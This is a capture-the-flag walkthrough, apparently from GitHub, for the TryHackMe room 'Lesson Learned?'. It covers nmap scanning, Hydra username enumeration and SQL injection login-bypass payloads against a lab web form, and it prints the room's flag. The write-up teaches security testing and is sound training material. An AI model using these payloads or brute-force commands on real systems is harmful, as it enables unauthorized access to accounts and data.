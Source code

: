 
# Lesson Learned? — TryHackMe Walkthrough

---

## 🧠 Introduction

Sometimes, the best lessons are the ones you break things to learn.

*Lesson Learned?* is a great example of a room that keeps things simple — but forces you to think carefully about how SQL injection actually works under the hood. It’s not about spraying `'OR 1=1--` and praying. It’s about being subtle, targeted, and aware of the damage you could cause in the real world.

This walkthrough breaks down the process step-by-step — from enumeration to crafting the perfect SQLi — while explaining the logic and risks behind each move.

---

## 🧭 Step 1: Scanning the Box

As always, we start with `nmap` to find out what services are running:

```bash
nmap -T4 -p- -A 10.10.99.121
```

Results:

```
22/tcp open  ssh        OpenSSH 8.4p1 Debian  
80/tcp open  http       Apache httpd 2.4.54 (Debian)
```

So we’ve got a web server on port 80 and SSH. Classic setup.

---

## 🌐 Step 2: Web App — Initial Login Page

Navigating to the web page on port 80 shows a generic-looking login form.

![Screenshot From 2025-05-19 16-23-13](https://github.com/user-attachments/assets/9598fd26-f1e3-459b-b6d3-614da166c045)

Naturally, I tried:

```
Username: admin  
Password: admin
```

No luck.

But when I entered this classic SQLi payload:

```
admin' OR '1'='1
```

… I didn’t get logged in — but I did get a juicy error message.

![Screenshot From 2025-05-19 16-30-08](https://github.com/user-attachments/assets/2b7f62c0-ae45-4a3d-8edb-f40e8e1602a2)

That means the backend is likely doing something like:

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```

If that’s true, then a properly crafted injection should let us slip in.

---

## 💥 Step 3: Discovering a Valid Username

Here’s the catch: SQLi works best when you inject into a valid user. So I turned to Hydra to brute-force possible usernames and figure out which ones exist:

```bash
hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p test 10.10.99.121 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

(Use the actual path/params for the login form — this is just illustrative.)

Eventually, we get a bunch of valid usernames. So since there are many I am going to use: **Green**

![Screenshot From 2025-05-19 16-38-27](https://github.com/user-attachments/assets/6e88bea4-943e-4423-94f4-f36bdc8998a8)


---

## 🧪 Step 4: Precision SQL Injection

Using what we’ve gathered, we now craft a *targeted* SQLi payload:

```
Username: Green' AND '1'='1'-- -
Password: (anything)
```

Why this works:

```sql
SELECT * FROM users WHERE username = 'Green' AND '1'='1' -- ' AND password = '...';
```

The `--` comments out the rest, and `AND '1'='1'` makes the condition always true for a valid user. Clean and precise.

And just like that... we're in.

![Screenshot From 2025-05-19 16-48-14](https://github.com/user-attachments/assets/fffff33f-ed29-40d9-a5ba-10aefdaa6b29)

---

## 🏁 Flag Captured

The final page gives us the flag:

```
THM{aab02c6b76bb752456a54c80c2d6fb1e}
```

>Q: What's the flag?  
>A: THM{aab02c6b76bb752456a54c80c2d6fb1e}

---

## 🔐 Conclusion

This room may be short — but it teaches a huge lesson.

Using `'OR 1=1--` might feel like a power move, but in a real environment? It’s a loaded gun. That kind of injection can dump the entire users table or accidentally wipe rows if used in a `DELETE` or `UPDATE` statement. Instead, this box rewards careful, *targeted* payloads — a skill that separates script kiddies from real security testers.

So yes — lesson learned.

> 💡 Be precise. Be subtle. And always understand *why* your payload works.

---
